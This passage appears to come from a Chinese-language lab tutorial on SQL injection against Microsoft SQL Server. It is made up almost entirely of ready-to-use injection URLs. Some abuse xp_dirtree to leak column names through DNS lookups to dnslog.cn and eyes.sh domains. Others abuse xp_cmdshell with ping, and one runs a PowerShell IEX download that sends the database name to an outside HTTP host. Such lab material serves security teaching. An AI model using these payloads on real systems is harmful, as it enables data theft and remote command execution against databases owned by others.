 ##### 获取字段名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```

![image-20240905205733240](./assets/image-20240905205733240.png)

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 2 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```

![image-20240905205640015](./assets/image-20240905205640015.png)

##### 获取数据

```sql
id=1';declare @a varchar(8000);set @a=(select top uagent from emails) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

------

##### HTTP数据外带

##### 获取数据库名

```sql
id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.37.240:9000?data='%2b@a%2b''')"') --+
```

![image-20240906092130775](./assets/image-20240906092130775-1725772724758-21.png)
